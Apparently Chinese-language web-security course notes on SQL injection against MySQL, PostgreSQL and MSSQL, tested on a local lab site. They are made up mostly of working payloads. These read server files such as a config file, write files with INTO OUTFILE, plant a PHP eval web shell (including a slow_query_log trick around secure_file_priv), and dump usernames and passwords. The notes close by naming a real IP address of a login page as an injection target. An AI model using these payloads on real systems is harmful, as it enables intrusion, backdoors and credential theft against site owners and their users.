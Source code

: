 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155234-a10137eb-d94c-4baf-9736-275521783366.png)

```plain
#知识点：
1、SQL注入-MYSQL数据库
2、SQL注入-MSSQL数据库
3、SQL注入-PostgreSQL数据库

#详细点：
Access无高权限注入点-只能猜解，还是暴力猜解
MYSQL，PostgreSQL，MSSQL高权限注入点-可升级读写执行等，还需要看具体有没有限制，能不能进行执行等等。
```

- MYSQL-root高权限读写注入

```plain
决定：连接的数据库用户
-读取文件：
UNION SELECT 1,load_file('d:/w.txt'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135154764-ec50bc75-5062-4e2a-a60b-6150d15aa730.png)

数据库中正常读取文件：select load_file('d:/www.txt');

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135154467-3f60ee13-cfde-46b1-86ef-65964d1eecde.png)

```plain
-写入文件：
UNION SELECT 1,'xxxx',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 into outfile 'd:/www.txt'
数据库写文件：select 'xxx' into outfile 'd:/1.txt';
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135154468-a1eb2850-1c34-4277-9e4c-a8640c1753fd.png)

```plain
-路径获取：phpinfo,报错,字典等
https://blog.csdn.net/god_7z1/article/details/8725541
读取关键文件，可以在搜索关键函数等
读取关键配置文件：http://127.0.0.1:8081/web/mysql/news.php?id=1 UNION SELECT 1,load_file('D:\\phpstudy_pro\\WWW\\web\\mysql\\config\\conn.php'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135154465-2fd1413e-8d5c-40a7-91ed-0bfdcf54ace7.png)

Phpinfo :搜索语法：inurl:phpinfo

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135154910-299c4cf5-57c3-4799-a148-417fc27c4c72.png)

```plain
后门代码：
http://127.0.0.1:8081/web/mysql/news.php
?id=1 UNION SELECT 1,'<?php eval($_POST['x']);?>',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 into outfile 'D:\\phpstudy_pro\\WWW\\web\\mysql\\3.php'
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135154921-4c8b2a35-84ee-4a3c-958b-0a7dac4d6ec0.png)

```plain
-无法写入：secure_file_priv突破 v突破 注入中需要支持SQL执行环境，没有就需要借助
secure_file_priv会限制读写，如果有限制，则意味着只能在该盘符上进行操作。
phpmyadmin或能够直接连上对方数据库进行绕过，或者支持堆叠注入。
set global slow_query_log=1;
set global slow_query_log_file='shell路径';
select '<?php eval($_POST[A]);?>' or SLEEP(11);
访问shell路径，连接后门。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155002-5e6ce0d8-ee41-4081-a82e-a96416e967f4.png)

- PostgreSQL-高权限读写注入

```plain
-测列数：
order by 4
and 1=2 union select null,null,null,null
-测显位：第2，3
and 1=2 union select 'null',null,null,null 错误
and 1=2 union select null,'null',null,null 正常
and 1=2 union select null,null,'null',null 正常
and 1=2 union select null,null,null,'null' 错误
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155031-4776be1d-d006-4003-94a4-e4d8c264a5ba.png)

```plain
-获取信息：
and 1=2 UNION SELECT null,version(),null,null
and 1=2 UNION SELECT null,current_user,null,null
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155204-f42f9778-6343-4591-962f-98aacbd3f8f6.png)

and 1=2 union select null,current_database(),null,null

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155281-eb906fe2-7326-4613-b3b8-6020082bea15.png)

```plain
-获取数据库名：
and 1=2 union select null,string_agg(datname,','),null,null from pg_database
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155286-815f0215-91e2-411a-a738-17d624baa467.png)

```plain
-获取表名：
1、and 1=2 union select null,string_agg(tablename,','),null,null from pg_tables where schemaname='public'
2、and 1=2 union select null,string_agg(relname,','),null,null from pg_stat_user_tables
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155301-a08cb00d-634d-40d7-a481-6262063c27f6.png)

```plain
-获取列名：
and 1=2 union select null,string_agg(column_name,','),null,null from information_schema.columns where table_name='reg_users'
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155516-c89b2c42-43f8-47d7-ae17-60dc9eda395b.png)

```plain
-获取数据：
and 1=2 union select null,string_agg(name,','),string_agg(password,','),null from reg_users
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155634-c2555274-6030-4068-9d98-cfe5f8d34e10.png)

```plain
参考：https://www.freebuf.com/sectool/249371.html
-补充-获取dba用户（同样在DBA用户下，是可以进行文件读写的）：
and 1=2 union select null,string_agg(usename,','),null,null FROM pg_user WHERE usesuper IS TRUE
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155768-bf95e86d-cfe1-4b3a-9262-5a548fa4ded3.png)

- MSSQL-sa高权限读写执行注入

```plain
-测列数：
order by 4
and 1=2 union all select null,null,null,null
-测显位：
and 1=2 union all select null,1,null,null
and 1=2 union all select null,null,'s',null
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155658-4c84b378-5653-4d0a-8b21-f817e50b069b.png)

```plain
-获取信息：
@@version 获取版本信息
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155717-8937a115-a979-4cda-b45e-d4d24183a3ca.png)

```plain
db_name() 当前数据库名字
user、system_user,current_user,user_name 获取当前用户名
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155805-1fe29753-012f-451b-8f99-00af402f1e67.png)

@@SERVERNAME 获取服务器主机信息

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135155893-81def829-a52e-4826-90b0-438421b78792.png)

```plain
and 1=2 union all select null,db_name(),null,null
-获取表名：
and 1=2 union all select null,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype='u'),null,null
union all select null,(select top 1 name from mozhe_db_v2.dbo.sysobjects where xtype='u' and name not in ('manage')),null,null
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135156039-a07e7357-8c1e-495d-bda7-3bde6f9cd3cd.png)

```plain
-获取列名：
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),1) from sysobjects),null,null
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),2) from sysobjects),null,null
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),3) from sysobjects),null,null
and 1=2 union all select null,(select top 1 col_name(object_id('manage'),4) from sysobjects),null,null
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135156037-874713dc-1b56-4a71-9c42-26d7f7d7336f.png)

```plain
• -获取数据：
and 1=2 union all select null,username, password ,null from manage
```

- 结尾彩蛋-某Q牌违法登陆框注入

```plain
116.206.94.133:888
已经关闭。
```
